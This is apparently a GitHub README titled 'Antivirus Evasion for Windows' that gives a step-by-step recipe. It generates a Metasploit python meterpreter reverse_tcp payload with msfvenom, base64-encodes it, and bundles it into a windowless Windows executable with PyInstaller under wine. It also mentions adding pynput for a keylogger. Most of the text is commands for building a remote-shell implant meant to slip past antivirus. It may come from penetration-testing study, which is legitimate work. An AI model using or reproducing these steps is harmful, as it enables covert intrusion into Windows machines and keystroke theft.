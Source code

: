 # Antivirus Evasion for Windows

# Install Metasploit

Metasploit: https://github.com/rapid7/metasploit-framework run the nightly script from github for installation

# Then install rest with

install.sh

This script might need modification on different linux versions.

# Create payload with python2 interpreter
<code>
which python2
</code>

Take care when installing packages with locally before crosscompiling to add the --user flag and look for the right pip version
<code>
python2.7 -m pip install pynput==1.0 --user
</code>


# Usage

msfvenom -p python/meterpreter/reverse_tcp LHOST=10.0.2.10 LPORT=443 -f raw -o mrtp.py
pythonpayload.py | base64 
Replace this string with the base64 string in mrtp.py

## Bundeling
Read this before starting: https://arcade.academy/tutorials/bundling_with_pyinstaller/index.html
Install the necessary imports with
<code>
wine ~/.wine/drive_c/Python27/python.exe -m pip install pynput==1.0 #This is example for the keylogger
</code>
wine ~/.wine/drive_c/Python27/python.exe -m PyInstaller --onefile --noconsole --hidden-import=pynput mrtp.py 
The exe-file is in the dist folder
Test it on wine with wine dist/mrtp.py

# Sources: 
- https://pentestmag.com/antivirus-evasion-with-python/
- https://www.andreafortuna.org/2017/12/27/how-to-cross-compile-a-python-script-into-a-windows-executable-on-linux/
- https://www.youtube.com/watch?v=ozPaEWN4GnM
- https://stackoverflow.com/questions/63342345/cant-install-pyinstaller-at-ubuntu
- https://www.quora.com/How-do-I-make-an-executable-file-exe-which-runs-in-the-Windows-Environment-from-Python-py-file?share=1